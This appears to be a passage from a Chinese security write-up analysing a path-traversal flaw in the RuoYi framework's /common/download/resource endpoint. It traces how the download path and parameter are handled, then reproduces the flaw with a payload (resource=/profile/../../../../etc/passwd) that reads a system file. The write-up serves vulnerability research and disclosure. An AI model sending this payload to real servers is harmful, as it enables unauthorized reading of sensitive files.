 3、 localPath 来自第101行注释为 本地资源路径 ，通过打个端点，我们可以看到localPath: D:/ruoyi/uploadPath ，是从  
src\\main\\resources\\application.yml 配置文件中第12行文件路径中获取的。  
![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1681138368081-67184f26-2851-4e8e-9672-2880eb992bbb.png)

4、通过第96行，知道接口路径为 /common/download/resource ，仅接受GET请求。

5、通过第97行， String resource 知道接收参数值的为 resource 。

#### 漏洞复现：

漏洞Payload: <http://127.0.0.1/common/download/resource?>

resource=/profile/../../../../etc/passwd 。

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1681479639295-39f0b535-347c-4032-97e7-c10383442cfe.png)

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1681479615206-2d3cc02a-c7c4-462a-8725-c50cd0b8f2b4.png)

**REF：**  
[https://blog.csdn.net/qq\_44029310/article/details/125296406](https://blog.csdn.net/qq_44029310/article/details/125296406)

<https://blog.csdn.net/Power7089/article/details/126625160>

<https://xz.aliyun.com/t/11928>